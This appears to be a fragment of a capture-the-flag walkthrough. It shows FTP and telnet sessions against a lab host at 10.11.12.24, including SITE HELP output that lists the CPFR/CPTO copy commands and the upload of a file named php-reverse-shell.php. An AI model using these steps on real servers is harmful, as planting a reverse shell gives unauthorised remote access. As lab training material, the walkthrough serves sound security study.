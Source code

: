 ```bash
append          dir             glob            mget            nmap            pwd             rstatus         throttle
ascii           disconnect      hash            mkdir           ntrans          quit            runique         trace
bell            edit            help            mls             open            quote           send            type
binary          epsv            idle            mlsd            page            rate            sendport        umask
bye             epsv4           image           mlst            passive         rcvbuf          set             unset
case            epsv6           lcd             mode            pdir            recv            site            usage
cd              exit            less            modtime         pls             reget           size            user
cdup            features        lpage           more            pmlsd           remopts         sndbuf          verbose
chmod           fget            lpwd            mput            preserve        rename          status          xferbuf
close           form            ls              mreget          progress        reset           struct          ?
ftp> site help
214-The following SITE commands are recognized (* =>'s unimplemented)
 CPFR <sp> pathname
 CPTO <sp> pathname
 HELP
 CHGRP
 CHMOD
214 Direct comments to root@JOY

ftp> ls
229 Entering Extended Passive Mode (|||49100|)
150 Opening ASCII mode data connection for file list
drwxrwxr-x   2 ftp      ftp          4096 Jan  6  2019 download
drwxrwxr-x   2 ftp      ftp          4096 Feb 25 15:09 upload
226 Transfer complete

ftp> cd uplaod
550 uplaod: No such file or directory

ftp> put php-reverse-shell.php
local: php-reverse-shell.php remote: php-reverse-shell.php
229 Entering Extended Passive Mode (|||20548|)
150 Opening BINARY mode data connection for php-reverse-shell.php
100% |*************************************************************************************|  5493       32.53 MiB/s    00:00 ETA
226 Transfer complete
5493 bytes sent in 00:00 (8.42 MiB/s)
ftp>
```

```bash
❯ telnet 10.11.12.24 21
Trying 10.11.12.24...
Connected to 10.11.12.24.
Escape character is '^]'.
help
220 The Good Tech Inc. FTP Server
214-The following commands are recognized (* =>'s unimplemented):
 CWD     XCWD    CDUP    XCUP    SMNT*   QUIT    PORT    PASV
 EPRT    EPSV    ALLO*   RNFR    RNTO    DELE    MDTM    RMD
 XRMD    MKD     XMKD    PWD     XPWD    SIZE    SYST    HELP
 NOOP    FEAT    OPTS    AUTH*   CCC*    CONF*   ENC*    MIC*
 PBSZ*   PROT*   TYPE    STRU    MODE    RETR    STOR    STOU
 APPE    REST    ABOR    USER    PASS    ACCT*   REIN*   LIST
```